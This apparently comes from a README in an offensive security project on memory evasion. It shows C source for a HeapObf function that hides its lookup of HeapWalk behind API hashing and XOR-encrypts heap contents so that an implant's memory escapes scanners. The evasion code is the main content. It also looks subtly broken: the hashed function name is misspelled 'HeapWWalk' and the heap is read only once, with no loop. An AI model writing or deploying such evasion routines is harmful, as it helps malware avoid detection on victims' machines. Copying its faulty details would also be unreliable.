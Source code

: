 ```c
FUNC VOID HeapObf( 
    PVOID Heap
) {
    BLACKOUT_INSTANCE

    PROCESS_HEAP_ENTRY HeapEntry   = { 0 };
    BYTE               HeapKey[16] = { 0x55, 0x55, 0x55, 0x55, 0x55, 0x55, 0x55, 0x55, 0x55, 0x55, 0x55, 0x55, 0x55, 0x55, 0x55, 0x55 }; // can be random generation

    MmZero( &HeapEntry, sizeof( PROCESS_HEAP_ENTRY ) );

    typedef WINBOOL (*fHeapWalk)(HANDLE hHeap, LPPROCESS_HEAP_ENTRY lpEntry);
    fHeapWalk pHeapWalk = LdrFuncAddr( LdrModuleAddr( H_MODULE_KERNEL32 ), HASH_STR( "HeapWWalk" ) );

    pHeapWalk( Heap, &HeapEntry );
    if ( HeapEntry.wFlags & PROCESS_HEAP_ENTRY_BUSY ) {
        XorCipher( HeapEntry.lpData, HeapEntry.cbData, HeapKey, sizeof(HeapKey) );
    }
}
```

Heap obuscated demo

![heapobf](../commons/memory_evasion_pt2/heapobf.png)
